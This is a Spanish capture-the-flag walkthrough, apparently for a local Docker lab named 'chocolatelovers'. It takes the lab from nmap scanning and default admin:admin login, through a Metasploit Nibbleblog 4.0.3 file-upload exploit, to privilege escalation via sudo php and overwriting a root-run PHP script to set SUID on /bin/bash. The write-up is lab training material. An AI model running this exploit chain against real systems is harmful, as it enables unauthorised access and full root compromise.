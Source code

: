 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh chocolatelovers.tar
```

![Pasted image 20250206171518](https://github.com/user-attachments/assets/de454d3f-5d3b-4d67-b3ba-30914aeb119b)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250206171636](https://github.com/user-attachments/assets/8de29c4f-fca5-4532-9b9d-70ca58be5030)

Nos metemos en la web:

![Pasted image 20250206172221](https://github.com/user-attachments/assets/13fb3374-f531-419c-9316-7ef26c7b31ba)

![Pasted image 20250206172242](https://github.com/user-attachments/assets/1bc214d2-d106-47a2-81b8-3a16b0c36737)

![Pasted image 20250206172317](https://github.com/user-attachments/assets/c11e2ff4-6f78-4121-858b-0fcad4d7198d)

Probamos admin: admin:

![Pasted image 20250206172346](https://github.com/user-attachments/assets/98c11b18-f83d-4729-bd80-93fa938bc948)

![Pasted image 20250206173029](https://github.com/user-attachments/assets/4d4ff942-ec93-43be-b5cd-510c6e5cb08c)

Versión nibblelog 4.0.3.

Buscamos si existe exploit:

```Bash
searchsploit nibbleblog
```

![Pasted image 20250206173405](https://github.com/user-attachments/assets/1b1106a5-e8ce-491b-8501-2e9747a01192)

Utilizamos **Metasploit** para explotar la vulnerabilidad:

```
search nibblelog
```

![Pasted image 20250206173800](https://github.com/user-attachments/assets/85c82db1-0007-44e6-9fe0-42f4e066165c)

```
use exploit/multi/http/nibbleblog_file_upload
```

![Pasted image 20250206173811](https://github.com/user-attachments/assets/a7c84414-a6d5-4b53-8f0b-5244740a18ab)

```
show options
```

![Pasted image 20250207085944](https://github.com/user-attachments/assets/361c6c19-781b-4c02-ae2c-a580e081915f)

```
set RHOSTS 172.17.0.2
```

![Pasted image 20250206173926](https://github.com/user-attachments/assets/f7972137-ba08-4209-b3e2-d08dd032572c)

```
set USERNAME admin
```

![Pasted image 20250206173942](https://github.com/user-attachments/assets/45f7005d-2e9e-4e5d-a6b1-7f705e925f91)

```
set PASSWORD admin
```

![Pasted image 20250206173954](https://github.com/user-attachments/assets/6eafc43a-c118-4f90-8755-0321d364ea3c)

```
set TARGETURI /nibbleblog/
```

![Pasted image 20250206174002](https://github.com/user-attachments/assets/753be9cd-e6f7-40e7-ae6f-79dc2329107e)

```
show options
```

![Pasted image 20250206173733](https://github.com/user-attachments/assets/00bc36e8-c7da-471d-ab36-0697a4f8c1e6)

```
exploit
```

![Pasted image 20250206174049](https://github.com/user-attachments/assets/3e3bee26-6dea-4ecf-b647-108b72ba41e1)

```
getuid
```

![Pasted image 20250206174103](https://github.com/user-attachments/assets/48683755-4e41-4969-b599-925f3e28abdb)

```
shell
```

![Pasted image 20250206174136](https://github.com/user-attachments/assets/0c2b096e-9c3d-493f-b9ca-dd128df42fa3)

```Bash
/bin/bash -i
```

![Pasted image 20250206174205](https://github.com/user-attachments/assets/a5e35c43-3b6c-4b1a-a98a-07d0b2b13040)

Elevamos privilegios:

```Bash
sudo -l
```

![Pasted image 20250206174226](https://github.com/user-attachments/assets/65cb1b82-834e-4f01-972b-41ff89d8ebc4)

```Bash
CMD="/bin/bash"
```

![Pasted image 20250206174420](https://github.com/user-attachments/assets/627f1469-1e18-4ae0-92c2-92bd6cadb474)

```Bash
sudo -u chocolate /usr/bin/php -r "system('$CMD');"
```

![Pasted image 20250206174434](https://github.com/user-attachments/assets/9dfec6a4-43ab-41cb-9ea0-6a264d4dd11e)

```Bash
/bin/bash -i
```

![Pasted image 20250206174514](https://github.com/user-attachments/assets/a3622942-72ef-4d4c-bcfa-455fd9510a9f)

```Bash
whoami
```

![Pasted image 20250206174536](https://github.com/user-attachments/assets/9ca0e2d4-49f3-4797-9cb9-f7019a31217d)

Miramos procesos:

```Bash
ps aux
```

![Pasted image 20250206175224](https://github.com/user-attachments/assets/804599b1-fea7-41fd-b3a4-d7cf5b5fa59e)

Elevamos privilegios de nuevo:

```Bash
cd /opt
```

![Pasted image 20250206174831](https://github.com/user-attachments/assets/9c18a433-ec63-4888-a77b-c6ee3f5f5116)

```Bash
ls
```

![Pasted image 20250206174850](https://github.com/user-attachments/assets/b0992abb-339e-4f79-a11c-404bd00b5451)

```Bash
cat script.php
```

![Pasted image 20250206174945](https://github.com/user-attachments/assets/2454f861-865a-45ca-a6ab-09777cf1865d)

```Bash
echo '<?php exec("chmod u+s /bin/bash"); ?>' > /opt/script.php
```

![Pasted image 20250206175324](https://github.com/user-attachments/assets/c8f83644-1511-4f8b-9a3f-883f3111ac14)

```Bash
ls -l /bin/bash
```

![Pasted image 20250206175514](https://github.com/user-attachments/assets/74dbcdd9-3065-43c4-ac28-8579615ccd35)

```Bash
bash -p
```

![Pasted image 20250206175528](https://github.com/user-attachments/assets/18382feb-83f5-4b3f-a833-66a6d8a04c47)

```Bash
whoami
```

![Pasted image 20250206175651](https://github.com/user-attachments/assets/9c5a02c2-b19d-40fb-8398-42499f01133d)
